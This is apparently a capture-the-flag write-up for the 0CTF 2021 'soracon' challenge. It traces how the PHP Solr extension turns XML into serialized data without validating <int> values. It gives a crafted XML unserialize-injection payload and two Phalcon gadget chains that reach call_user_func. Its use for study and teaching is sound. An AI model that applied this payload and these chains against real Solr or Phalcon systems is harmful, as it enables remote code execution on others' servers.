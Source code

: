 ### References

- [@zsx, Official WP, 2021-07-05](https://github.com/zsxsoft/my-ctf-challenges/tree/master/0ctf2021/soracon)
- [@byc_404, 0ctf/tctf-soracon, 2021-07-07](https://bycsec.top/2021/07/07/0ctf-tctf-soracon/)

**Tag: Unserialize injection, Solr extensions**

1.We can control the Solr response content, review the solr extensions's source code:

```c
PHP_METHOD(SolrResponse, getResponse) ->
solr_response_get_response_impl(INTERNAL_FUNCTION_PARAM_PASSTHRU,1)  ->
php_var_unserialize(return_value, &raw_resp, str_end, &var_hash)
```

It use `php_var_unserialize` to make `SolrObject`. `raw_resp` from `buffer.str`, `buffer` is processed in many different ways according to the if condition.

Trun on `display_errors` and test locally, it show:

```tex
Warning: SolrResponse::getResponse(): Error loading root of XML document in /var/www/html/index.php on line 9

Warning: SolrResponse::getResponse(): Error unserializing raw response. in /var/www/html/index.php on line 9

Fatal error: Uncaught SolrException: Error un-serializing response in /var/www/html/index.php:9 Stack trace: #0 /var/www/html/index.php(9): SolrResponse->getResponse() #1 {main} thrown in /var/www/html/index.php on line 9
```

this can therefore be determined that it will convert XML response. go to [`solr_encode_generic_xml_response`](https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/php_solr_response.c#L239)

```c
solr_encode_generic_xml_response(&buffer, ...)  ->
// <src/php7/solr_functions_helpers.c>
solr_encode_object(root, buffer, SOLR_ENCODE_STANDALONE, 0L, parse_mode)  ->
solr_encoder_functions[solr_get_xml_type((__node))]
```

the [`solr_encode_objec`](https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/solr_functions_helpers.c#L1231) called [`solr_write_object_opener`](https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/solr_functions_helpers.c#L654) to write a serialized string to the `buffer`, then called the [`solr_encode_xml_node`](https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/solr_functions_helpers.c#L462) function to select the corresponding function for the different node types and convert the xml to php serialize.

```c
/* {{{ global variables solr_encoder_functions[], solr_document_field_encoders[] */
static solr_php_encode_func_t solr_encoder_functions[] = {
	solr_encode_string,
	solr_encode_null,
	solr_encode_bool,
	solr_encode_int,
	solr_encode_float,
	solr_encode_string,
	solr_encode_array,
	solr_encode_object,
	solr_encode_document,
	solr_encode_result,
	NULL
};
```

Pick any one, e.g. [`solr_encode_int`](https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/solr_functions_helpers.c#L1142)

```c
/* {{{ static void solr_encode_int(const xmlNode *node, solr_string_t *buffer, solr_encoding_type_t enc_type, long int array_index, long int parse_mode) */
static void solr_encode_int(const xmlNode *node, solr_string_t *buffer, solr_encoding_type_t enc_type, long int array_index, long int parse_mode)
{
	solr_char_t *data_value = (solr_char_t *) solr_xml_get_node_contents(node);
	size_t data_value_len   = solr_strlen(data_value);
	solr_write_variable_opener(node, buffer, enc_type, array_index);
	solr_string_append_const(buffer, "i:");
	solr_string_appends(buffer, data_value, data_value_len);
	solr_string_appendc(buffer, ';');
}
/* }}} */
```

The `data_value` spliced directly into the serialised string without verifying that it is an integer. Here will convert `<int>123456</int>` to `i:12345`

So we can do Unserialize injection, just manually close all brackets. PHP will stop reading all the remaining characters if unserialization is done(**brackets are all closed**).

Use tcpdump sniffing in docker and look at the packets in wireshark: (<del>too lazy to install solr locally and debug<del> :p)

![img1](./assets/img1.png?raw=true)

Then we can insert serialised data, which requires the closure of **5 brackets** (use fuzzing)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<response>
<result name="response" numFound="1" start="0" numFoundExact="true">
  <doc name="test">
    <int name="a">123;i:1;O:4:"XXXX":0:{}}}}}}</int>
    <int name="b">0</int>
  </doc>
</result>
</response>
```

now we can triggered unserialization, all we need is gadget chain.

2.in phpinfo.php we can find `phalcon` extension v4.1.2 installed. View it source code https://github.com/phalcon/cphalcon/tree/4.1.2-release, it's written in Zephir and will be compiled to C.

gadget chain:

```php
\Phalcon\Logger\Adapter\AbstractAdapter#__destruct()
    => this->commit() => <abstract>this->process(item)
\Phalcon\Logger\Adapter\Stream<extends AbstractAdapter>#process(<Item> item)
    => this->getFormatter()->format(item)
\Phalcon\Logger\Formatter\Line#format(<Item> item)
    => item->getMessage() <__call>
\Phalcon\Di#__call(string! method, array arguments = []) <getter>
    => this->get(possibleService, arguments) => service->resolve(parameters, this)
\Phalcon\Di\Service#resolve(parameters = null, <DiInterface> container = null)
    => builder->build(container, definition, parameters)
\Phalcon\Di\Service\Builder#build()
    => create_instance(className) & call_user_func_array(methodCall, this->buildParameters(container, arguments))
\Phalcon\Validation::class
    => add(var field, <ValidatorInterface> validator)
    => validate(var data = null, var entity = null) => validator->validate(this, field)
\Phalcon\Validation\Validator\Callback::validate(<Validation> validation, var field)
    => call_user_func(callback, data)
```

use the chain.php generating serialised payloads and use the rep.py responsed the payload

![img2](./assets/img2.png?raw=true)

another chain from ROIS:

```php
\Phalcon\Logger\Adapter\AbstractAdapter#__destruct()
    => this->commit() => <abstract>this->process(item)
\Phalcon\Logger\Adapter\Stream<extends AbstractAdapter>#process(<Item> item)
    => this->getFormatter()->format(item)
\Phalcon\Logger\Formatter\Line#format(<Item> item)
    => item->getMessage() <__toString>
\Phalcon\Forms\Element\Date<extends AbstractElement>#__toString()
    => this->{"render"}() => this->prepareAttributes() => this->getValue() => form->getValue(name)
\Phalcon\Validation#getValue(string field)
    => this->entity->{method}()
\Phalcon\DataMapper\Pdo\ConnectionLocator#getWrite(string name = "")
    => this->getConnection("write", name) => call_user_func(collection[requested])
\Phalcon\Loader#loadFiles()
    => call_user_func(fileCheckingCallback, filePath)
```
